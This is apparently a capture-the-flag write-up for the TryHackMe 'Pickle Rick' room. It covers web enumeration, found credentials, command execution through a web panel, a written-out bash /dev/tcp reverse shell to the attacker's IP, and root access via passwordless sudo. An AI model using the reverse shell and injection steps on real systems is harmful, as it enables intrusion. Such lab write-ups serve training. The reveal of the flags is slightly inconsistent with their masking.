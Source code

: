 ```yaml
---
title: Pickle Rick
categories: [TryHackMe]
tags: [Linux, easy,dirsearch,]
image: images/Rick/Rick.jpg
---
```


**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by the *Rick and Morty* series. This walkthrough guides you through using a custom portal to find the three secret ingredients to reverse Rick's pickle transformation.

# 1. Initial Reconnaissance and Scanning

Gather information about the target machine.

### Nmap Scan
Run an Nmap scan to identify open ports and services:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>
```

- `-sC`: Runs default scripts for vulnerability checks.
- `-sV`: Detects service versions.
The scan reveals port 80 (HTTP) is open.

![nmap](../images/Rick/namp.png)

# 2. Web Enumeration

Explore the web interface.
![web](../images/Rick/web.png)
### Access the Portal
Visit `http://<Target_IP>` to access the *Rick and Morty*-themed portal. Check the page source for clues. A note reveals the username: **RickRul3s**.
![ins](../images/Rick/inspect.png)
### Check robots.txt
Retrieve hidden files:

```console
curl http://<Target_IP>/robots.txt
```
we found *Wubbalubbadubdub* it's the password
### Discovery

I used Dirsearch 

![dirsearch](../images/Rick/dirsearch.png)

### login

We need to visit `http://<Target_IP>/login.php`

![login](../images/Rick/login.png)

After We logged in   

# 3. Accessing the Command Panel

Navigate to `http://<Target_IP>/portal` to access the command panel.

![Portal](../images/Rick/portal.png)

### Execute Commands
Use the command panel to list files:

```console
ls -la
```
![ls](../images/Rick/ls.png)
This reveals files like `Sup3rS3cretPickl3Ingred.txt`, `clue.txt`, etc.
### failing cat

The command is disabled
![failed](../images/Rick/failed.png)

we can try less or tac
```
less Sup3rS3cretPickl3Ingred.txt
```
![less](../images/Rick/less.png)

we got the first flag *##. ####### ####*
# 4. Gaining a Reverse Shell

### Execute Reverse Shell
In the command panel, enter:

```console
bash -i >& /dev/tcp/<Your IP>/4444 0>&1
```
![rev](../images/Rick/rev.png)

Replace `10.10.10.10` with your IP. After execution, you should see a connection in your listener.

### Set Up Listener
On your machine, start a Netcat listener:

```console
nc -lvnp 4444
```
![listen](../images/Rick/listen.png)


# 5. Privilege Escalation

With the shell, escalate privileges.

### Navigate and List Files
From the shell:

```console
cd /home
ls
cd rick
ls
less second\ ingredients
```
![second](../images/Rick/second.png)
The second ingredient is **# ##### ####**.

### Escalate to Root
Check sudo privileges:

```console
sudo -l
```
![nopass](../images/Rick/nopass.png)
If `(ALL) NOPASSWD: ALL` is allowed, run:

```console
sudo su
cd /root
ls
less 3rd.txt
```
![previlge](../images/Rick/previlge.png)
The third ingredient is **###### #####**.


# 6. Capture the Ingredients

- **First Ingredient**: **##. ####### ####** (from `Sup3rS3cretPickl3Ingred.txt`).
- **Second Ingredient**: **# ##### ####** (from `/home/rick/second ingredients`).
- **Third Ingredient**: **###### #####** (from `/root/3rd.txt`).

# 7. Final Thoughts

You’ve successfully found all three ingredients: **mr_meeseek_hair**, **jerry_tear**, and **fleebs_juice** to help Rick. This challenge leverages a custom portal and basic Linux skills. Great job, Morty!